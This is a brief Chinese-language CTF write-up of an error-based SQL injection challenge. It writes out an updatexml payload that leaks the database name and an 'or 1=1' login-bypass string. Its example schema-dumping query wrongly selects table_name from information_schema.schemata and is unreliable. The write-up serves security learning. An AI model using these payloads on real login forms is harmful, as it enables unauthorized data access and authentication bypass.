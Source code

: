 根据题目提示：post error injectin single(单引号）

输入admin'

有报错提示。

payload:

admin'and+updatexml(1,concat(0x7e,database(),0x7e),1)--+

![](images/1B3FA4DDCFD044CD8909017AD6561290clipboard.png)



接下来就是常规暴库语句：

select table_name from information_schema.schemata limit 0,1

但是updatexml只能爆出32个字节



这个题还可以试试万能密码：

payload:admin'or'1'='1



报错注入连接：

https://v0w.top/2018/08/03/MySQL%20%E6%8A%A5%E9%94%99%E6%B3%A8%E5%85%A5/#updatexml